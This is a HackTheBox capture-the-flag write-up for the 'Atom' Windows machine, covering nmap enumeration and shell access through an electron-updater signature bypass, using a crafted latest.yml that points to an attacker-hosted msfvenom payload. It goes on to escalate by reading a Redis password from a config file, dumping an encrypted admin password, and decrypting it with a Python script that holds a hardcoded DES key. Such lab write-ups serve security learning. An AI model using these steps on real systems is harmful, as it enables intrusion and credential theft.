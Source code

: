 Title: Atom writeup HackTheBox - by DarkRider88
Date: 17/05/2021
Description: This is a easy level windows box in which we are exploiting a binary built on electron-builder which is vulnerable to update signature bypass, and this gives us remote code execution.
Image: /assets/images/atom.jpg
Level: Easy

# Enumeration

```
Starting Nmap 7.91 ( https://nmap.org ) at 2021-05-23 10:50 IST
Nmap scan report for 10.10.10.237
Host is up (0.24s latency).
Not shown: 996 filtered ports
PORT    STATE SERVICE      VERSION
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
445/tcp open  microsoft-ds Microsoft Windows 7 - 10 microsoft-ds (workgroup: WORKGROUP)
Service Info: Host: ATOM; OS: Windows; CPE: cpe:/o:microsoft:windows

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 40.14 seconds
```
Checking the smb port, there are few folders and one of them contains a pdf file.
On port 80, there is a application to download for windows.
The pdf says the app is build with electron-builder and it is using the electron-updater for pushing the regular updates.
The updates are being fetched from the client folders from SMB port.

Searching for exploit: https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Now we have to create a latest.yml file and put it into the client folder, which will help the updater to fetch our malicious payload.

## Getting shell

- create a exe file with msfvenom
- then create a latest.yml file like this

```
version: 2.0.0
path: http://10.10.16.5/r'shell.exe
sha512: Ih68rZYJKgdl3hlarnl+6kgqKig8Yh4l4KsYl80/FqCU6pxNH0JImoLiiAitO5UDMXkfdYVk5IwdbI0KYEkL3w==
```

## Root

run winPeas
Redis server is running
found a file: C:\program files\redis\redis.windows-service.conf

a password: kidvscat_yes_kidvscat

through this password we can connect with redis server

Install redis-tools on your computer 

connect with the server
```
redis-cli -h 10.10.10.237 -a kidvscat_yes_kidvscat
```

list keys
```
keys *
```
get user
```
get get pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0 

"{\"Id\":\"e8e29158d70d44b1a1ba4949d52790a0\",\"Name\":\"Administrator\",\"Initials\":\"\",\"Email\":\"\",\"EncryptedPassword\":\"Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi\",\"Role\":\"Admin\",\"Inactive\":false,\"TimeStamp\":637530169606440253}"
10.10.10.237:6379> 

```

Search again the machine and we foudn a kanban portable pdf..
search for its exploit we found a script to decrypt its password

```py
import json
import base64
from des import * #python3 -m pip install des

try:
    hash = str(input("Enter the Hash : "))
    hash = base64.b64decode(hash.encode('utf-8'))
    key = DesKey(b"7ly6UznJ")
    print("Decrypted Password : " + key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8'))
except:
    print("Wrong Hash")
```

